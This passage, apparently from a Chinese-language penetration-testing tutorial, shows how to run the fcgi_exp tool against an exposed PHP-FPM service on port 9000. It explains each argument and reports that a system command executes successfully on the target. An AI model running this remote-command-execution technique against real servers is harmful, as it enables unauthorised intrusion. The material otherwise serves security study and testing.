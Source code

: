 然后直接运行可以看到 fcgi\_exp 的使用方法：

[![](assets/1698897074-bde7f1ea9c8ce4cf116220829404d90e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134735-8d6cfa6c-b2e5-1.png)

使用如下命令进行测试

```plain
./fcgi_exp system 192.168.43.82 9000 /var/www/html/index.php "id"
```

-   system：要使用的PHP函数
-   192.168.43.82：目标机IP
-   9000：目标机 fpm 端口
-   /var/www/html/index.php：已知的位于目标机上的PHP文件
-   id：要执行的系统命令

如下图所示，成功执行系统命令，利用成功：
